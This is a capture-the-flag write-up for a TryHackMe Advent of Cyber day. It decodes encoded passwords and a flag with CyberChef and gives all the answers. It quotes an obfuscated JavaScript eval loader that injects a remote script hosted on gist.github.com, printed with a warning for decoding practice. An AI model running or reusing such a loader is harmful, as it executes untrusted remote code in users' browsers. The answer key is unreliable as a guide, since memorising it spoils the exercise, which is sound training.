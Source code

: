 # Day 22 - Elf McEager becomes CyberElf

**Date:** 22, December, 2020

**Author:** Dhilip Sanjay S

---

## Password Manager
- KeePass is an open-source password manager.

---
## Solutions
### What is the password to the KeePass database?
- **Answer:** thegrinchwashere
- **Steps to Reproduce:** 
    - Run Magic Recipe on the file name: `dGhlZ3JpbmNod2FzaGVyZQ==`.

---

### What is the encoding method listed as the 'Matching ops'?
- **Answer:** Base64
- **Steps to Reproduce:** 
    - `==` is used for padding in Base64.

---

### What is the decoded password value of the Elf Server?
- **Answer:** sn0wM4n!
- **Steps to Reproduce:** 
    - Run Magic Recipe on the Elf Server password: `736e30774d346e21`
    - It's encoded in Hex: `HEXtra step to decrypt.`
---

### What is the decoded password value of the ElfMail?
- **Answer:** ic3Skating!
- **Steps to Reproduce:** 
    - Run Magic Recipe on the Elf Mail password: `&#105;&#99;&#51;&#83;&#107;&#97;&#116;&#105;&#110;&#103;&excl;`
    - It's encoded in HTML_Entity: `Entities`

---

### Decode the last encoded value. What is the flag?
- **Answer:** THM{657012dcf3d1318dca0ed864f0e70535}
- **Steps to Reproduce:** 
    - Don't run javascript with eval function!!
    ```js
    eval(String.fromCharCode(118, 97, 114, 32, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 32, 61, 32, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 114, 101, 97, 116, 101, 69, 108, 101, 109, 101, 110, 116, 40, 39, 115, 99, 114, 105, 112, 116, 39, 41, 59, 32, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 46, 116, 121, 112, 101, 32, 61, 32, 39, 116, 101, 120, 116, 47, 106, 97, 118, 97, 115, 99, 114, 105, 112, 116, 39, 59, 32, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 46, 97, 115, 121, 110, 99, 32, 61, 32, 116, 114, 117, 101, 59, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 46, 115, 114, 99, 32, 61, 32, 83, 116, 114, 105, 110, 103, 46, 102, 114, 111, 109, 67, 104, 97, 114, 67, 111, 100, 101, 40, 49, 48, 52, 44, 32, 49, 48, 52, 44, 32, 49, 49, 54, 44, 32, 49, 49, 54, 44, 32, 49, 49, 50, 44, 32, 49, 49, 53, 44, 32, 53, 56, 44, 32, 52, 55, 44, 32, 52, 55, 44, 32, 49, 48, 51, 44, 32, 49, 48, 53, 44, 32, 49, 49, 53, 44, 32, 49, 49, 54, 44, 32, 52, 54, 44, 32, 49, 48, 51, 44, 32, 49, 48, 53, 44, 32, 49, 49, 54, 44, 32, 49, 48, 52, 44, 32, 49, 49, 55, 44, 32, 57, 56, 44, 32, 52, 54, 44, 32, 57, 57, 44, 32, 49, 49, 49, 44, 32, 49, 48, 57, 44, 32, 52, 55, 44, 32, 49, 48, 52, 44, 32, 49, 48, 49, 44, 32, 57, 55, 44, 32, 49, 49, 56, 44, 32, 49, 48, 49, 44, 32, 49, 49, 48, 44, 32, 49, 49, 52, 44, 32, 57, 55, 44, 32, 49, 48, 53, 44, 32, 49, 50, 50, 44, 32, 57, 55, 44, 32, 52, 55, 41, 59, 32, 32, 32, 118, 97, 114, 32, 97, 108, 108, 115, 32, 61, 32, 100, 111, 99, 117, 109, 101, 110, 116, 46, 103, 101, 116, 69, 108, 101, 109, 101, 110, 116, 115, 66, 121, 84, 97, 103, 78, 97, 109, 101, 40, 39, 115, 99, 114, 105, 112, 116, 39, 41, 59, 32, 118, 97, 114, 32, 110, 116, 51, 32, 61, 32, 116, 114, 117, 101, 59, 32, 102, 111, 114, 32, 40, 32, 118, 97, 114, 32, 105, 32, 61, 32, 97, 108, 108, 115, 46, 108, 101, 110, 103, 116, 104, 59, 32, 105, 45, 45, 59, 41, 32, 123, 32, 105, 102, 32, 40, 97, 108, 108, 115, 91, 105, 93, 46, 115, 114, 99, 46, 105, 110, 100, 101, 120, 79, 102, 40, 83, 116, 114, 105, 110, 103, 46, 102, 114, 111, 109, 67, 104, 97, 114, 67, 111, 100, 101, 40, 52, 57, 44, 32, 52, 57, 44, 32, 49, 48, 48, 44, 32, 53, 49, 44, 32, 53, 48, 44, 32, 52, 57, 44, 32, 53, 48, 44, 32, 53, 50, 44, 32, 53, 50, 44, 32, 57, 57, 44, 32, 53, 50, 44, 32, 49, 48, 48, 44, 32, 53, 52, 44, 32, 53, 52, 44, 32, 53, 53, 44, 32, 53, 50, 44, 32, 53, 50, 44, 32, 53, 52, 44, 32, 49, 48, 48, 44, 32, 57, 56, 44, 32, 49, 48, 50, 44, 32, 49, 48, 48, 44, 32, 53, 55, 44, 32, 57, 55, 44, 32, 53, 49, 44, 32, 53, 48, 44, 32, 53, 55, 44, 32, 53, 54, 44, 32, 57, 55, 44, 32, 53, 54, 44, 32, 53, 54, 44, 32, 57, 56, 44, 32, 53, 54, 41, 41, 32, 62, 32, 45, 49, 41, 32, 123, 32, 110, 116, 51, 32, 61, 32, 102, 97, 108, 115, 101, 59, 125, 32, 125, 32, 105, 102, 40, 110, 116, 51, 32, 61, 61, 32, 116, 114, 117, 101, 41, 123, 100, 111, 99, 117, 109, 101, 110, 116, 46, 103, 101, 116, 69, 108, 101, 109, 101, 110, 116, 115, 66, 121, 84, 97, 103, 78, 97, 109, 101, 40, 34, 104, 101, 97, 100, 34, 41, 91, 48, 93, 46, 97, 112, 112, 101, 110, 100, 67, 104, 105, 108, 100, 40, 115, 111, 109, 101, 115, 116, 114, 105, 110, 103, 41, 59, 32, 125));
    ```
    - Run `From charCode` twice with appropriate base and delimiter.
    - Navigate to the link: `https://gist.github.com/heavenraiza/1d321244c4d667446dbfd9a3298a88b8`

---